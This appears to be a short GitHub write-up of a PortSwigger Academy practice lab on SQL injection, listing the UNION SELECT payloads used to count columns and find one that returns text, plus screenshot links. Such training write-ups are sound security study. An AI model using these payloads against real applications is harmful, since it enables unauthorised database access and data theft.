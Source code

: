 # SQL Injection - Injecting UNION attack, finding a column containing text

## 📌 Lab Details
- **Title**: SQL Injection - Finding a column containing a specific text
- **Difficulty**: Practitioner
- **Category**: SQL Injection
- **Lab URL**: https://portswigger.net/academy/labs/launch/dc3ff4b519f1a96f0bd7507a607ced9ca7f87900eb196d0a9b25001de1833f5e?referrer=%2fweb-security%2fsql-injection%2funion-attacks%2flab-find-column-containing-text

## 🔍 Summary
This lab demonstrated how to find a column containing text in a database.

## 🛠 Steps to Solve
1. Determining the number of columns present by injecting `'+UNION+SELECT+NULL,NULL,NULL--`.
2. Injecting `'+UNION+SELECT+'abcdef',NULL,NULL--` to determine which column contains text.
3. Repeat the process and move on to the next null, if an error occurs `'+UNION+SELECT+NULL,'abcdef',NULL--`.
4. Injecting the string given in the lab `'+UNION+SELECT+NULL,'1yqAEG',NULL--` to solve the lab.
   
## 📖 Key Takeaways
- Using `UNION` and  `SELECT` commands to determine the text based column in the database.

## 🖼️ Screenshot 
![image](https://github.com/user-attachments/assets/4b1bab26-5c7d-4d22-9dd1-de33424e23a8)
![image](https://github.com/user-attachments/assets/6655f4f5-df23-486b-b51a-99fc506c59a3)
![image](https://github.com/user-attachments/assets/e89ac5fc-7daa-4c7d-8863-ff632e4390f9)
![image](https://github.com/user-attachments/assets/7bcc1c6f-edf6-439a-bf0f-2d1dee1f07a6)
